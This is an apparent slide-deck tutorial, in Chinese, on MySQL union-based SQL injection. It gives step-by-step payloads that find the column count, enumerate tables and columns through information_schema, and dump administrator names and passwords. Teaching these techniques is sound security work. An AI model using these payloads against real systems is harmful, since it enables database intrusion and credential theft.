

# Mysql 注入原理
1.判断注入漏洞
And 1=1 and1=2
2.判断多少列，数字报错减少，正常增加
Order by 20
3.union联合查询，报字符列在第几列
 union select 1,2,3,4,5
4.在字符列上报相关信息,数据库版本信息，用户，数据库名称（十六进制转换）。
union select 1,version(),3,4,5
5.指定数据库，爆数据库表名
union select 1,group_concat(table_name),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21 from information_schema.tables where table_schema=0x6D7574696130313231
6.指定表名爆列名
union select 1,group_concat(column_name),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21 from information_schema.columns where table_name=0x61646D696E
id,name,adminpass,right_li,right_li_b,checks,level_id
7.查询数据信息
union select 1,group_concat(name,0x5c,adminpass),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21 from  admin